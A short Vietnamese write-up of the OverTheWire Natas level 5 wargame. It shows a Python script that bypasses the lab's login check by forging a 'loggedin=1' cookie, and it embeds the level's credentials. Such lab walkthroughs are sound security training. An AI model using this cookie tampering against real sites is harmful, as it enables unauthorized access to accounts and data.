


# Natas5



- Mới vào thì thấy ngay dòng thông báo `Access disallowed. You are not logged in`

- `F12` coi thử xem có gì



- Ta để ý thấy dòng `loggedin=0`

- Đề nói ta chưa login, theo logic thì chuyển `loggedin=0` thành `loggedin=1` thì chắc sẽ được. bắt tay vào làm thử

- Code của mình:

```
	import requests
	import re

	username = 'natas5'
	password = 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	cookies = {
		'loggedin' : '1'
	}

	response = requests.get(url, auth = (username, password), cookies = cookies)

	print(response.text)
```

- Chỉ cần thêm thay đổi đó trong phần `cookies` là OK
